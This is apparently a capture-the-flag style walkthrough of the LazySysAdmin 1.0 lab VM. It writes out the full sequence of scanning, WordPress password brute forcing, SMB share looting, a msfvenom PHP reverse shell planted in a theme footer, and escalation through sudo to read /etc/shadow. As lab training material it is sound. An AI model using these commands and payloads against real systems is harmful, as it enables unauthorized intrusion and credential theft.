 <h1>LazySysAdmin 1.0 Walkthrough</h1>

Author Description: "Boot2root created out of frustration from failing my first OSCP exam attempt."

Difficulty: Beginner - Intermediate

Challenge: Accepted

I imported to VMware Workstation, using a host only subnet for this and my Kali VM.

Run a quick `netdiscover` to gather the target's IP and an `ifconfig` to confirm my attacker IP.

Now I can really start things off with an Nmap scan.

`nmap -Pn -sT -sV -O 192.168.17.139 -p1-65000`

![Image of Nmap](https://blu0.github.io/LSAWalkthrough/LSAnmap.png)

So there's a few different places to start, but I'll take a look at the website on Port 80 first.

![Image of Site](https://blu0.github.io/LSAWalkthrough/LSAsite.png)

Nothing really jumps out after looking around for a bit, so time for some more web enumeration.

I'll go with trusty old Nikto here and move to Dirbuster, etc if I needed.

`nikto -h 192.168.17.139`

![Image of Nikto](https://blu0.github.io/LSAWalkthrough/LSAnikto.png)

So looking through the results, there are quite a few things to check here. First off, the robots.txt shows the same directories as the Nikto scan, so that's a wash. The `/old/` and `/test/` directories show nothing at all, so moving on. I poked a little bit at the `/myphpadmin/` page but it requires a password. A few guesses at username/password combos proved useless... meh, moving on for now.

There is a WordPress site, but nothing seems to load. Who cares? I’m going to add `/wp-admin/` anyway and see if there is a login page.

Voila!

![Image of Wp-admin](https://blu0.github.io/LSAWalkthrough/LSAwp.png)

WordPress looks like the most viable path at the moment, and it would be a quick reverse shell if I can work my way in.

It's time for some WPScan to see what usernames are there.

![Image of WPscan](https://blu0.github.io/LSAWalkthrough/LSAwpscane.png)
![Image of WPscan2](https://blu0.github.io/LSAWalkthrough/LSAwpscanadmin.png)

So we have Admin and nothing else. Ok then.

Trying some WPScan Brute Force, I scraped the site with Cewl:

`cewl -m 5 http://192.168.17.139/wordpress -w lazycewl.txt`

Then ran it through some mutations with John The Ripper:

`john --wordlist=/root/lazycewl --rules --stdout > lazymutate.txt`

`wpscan –u http://192.168.17.139/wordpress –wordlist lazymutate.txt –username admin`

I tried rockyou for a few minutes before cancelling it, brute force is probably not the answer at this point, but we can return to it if no other information is found. Maybe the password is somewhere else.

Time to check the SMB port and see if there is any relevant data to be found. I probably could have done this a little earlier and saved some time, but here goes.

`enum4linux -a 192.168.17.139`

![Image of Enum4Linux](https://blu0.github.io/LSAWalkthrough/LSAenum4linux.png)

There are a few options, but `share$` looks interesting since it is not a default.

I connect to share as guest.

![Image of SMBClient](https://blu0.github.io/LSAWalkthrough/LSAsmbclient.png)

No problem listing directories or files.

![Image of SMBClient2](https://blu0.github.io/LSAWalkthrough/LSAsmbclient2.png)


The `get` command works, so grabbed the wp-config.php file and viewed it on my system.

![Image of wp-config](https://blu0.github.io/LSAWalkthrough/LSAwp-config.png)

Trying the password found in the WordPress Admin panel and what do you know, the password works.

Now it's time for time get a quick reverse shell on the machine. To do this I will generate a Meterpreter shell using the following command:

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.17.141 LPORT=4444 -f raw > shell.php`

Note: Meterpreter is not really needed, I could have tried any number of php reverse shells, but I wanted the meterpreter one for the `shell` command so that if I do something to botch my shell I can simply end the session instead of havnig to reconnect entirely.

Once the shellcode is generated, I do a little touch up on the format (remove leading `//` and add `?>` to the end), then add to footer.php of theme.

![Image of footer](https://blu0.github.io/LSAWalkthrough/LSAfooter.png)

Get meterpreter ready by confirming all options are set appropriately (Payload/LHOST/LPORT)

![Image of meterpreter](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter.png)

Now type run and reload the wordpress site.

![Image of meterpreter2](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter2.png)

The reverse shell is successful, getting some system info.

I tried the WordPress password for root, but it isn't working.

Moved to /tmp and did a quick wget from my attack machine (ensure apache is running on Kali) to download the linuxprivchecker.py script. Ran it, but found nothing obvious. I'll poke around some more with what I already have and come back to it if I get stuck.

Maybe there is another user in the database or another database.

![Image of mysql](https://blu0.github.io/LSAWalkthrough/LSAmysql.png)

![Image of mysql2](https://blu0.github.io/LSAWalkthrough/LSAmysql2.png)

![Image of mysql3](https://blu0.github.io/LSAWalkthrough/LSAmysql3.png)

Nope, no other users.

What other users are on the system?

![Image of passwd](https://blu0.github.io/LSAWalkthrough/LSApasswd.png)

User `togie` looks interesting. I tried swiching to togie with the WordPress password, but no go.

Did I overlook something previously?

Yes, actually. It occurs to me tht I haven't explored my SMB share nearly enough. so I go back to the SMB share and grab deets.txt

![Image of deets](https://blu0.github.io/LSAWalkthrough/LSAdeets.png)

Now that's promising.

Back to my low priv shell, now I'm able to switch to togie with the newly discovered password, and I see the user is in the sudo group as well.

![Image of su](https://blu0.github.io/LSAWalkthrough/LSAsu.png)

Let's see what I can do with sudo access.

![Image of shadow](https://blu0.github.io/LSAWalkthrough/LSAshadow.png)

Looks like a restricted shell, but this doesn't faze me.

![Image of root](https://blu0.github.io/LSAWalkthrough/LSAroot.png)

Proof.txt is mine, plus I have the root password hash if I want to crack it later.


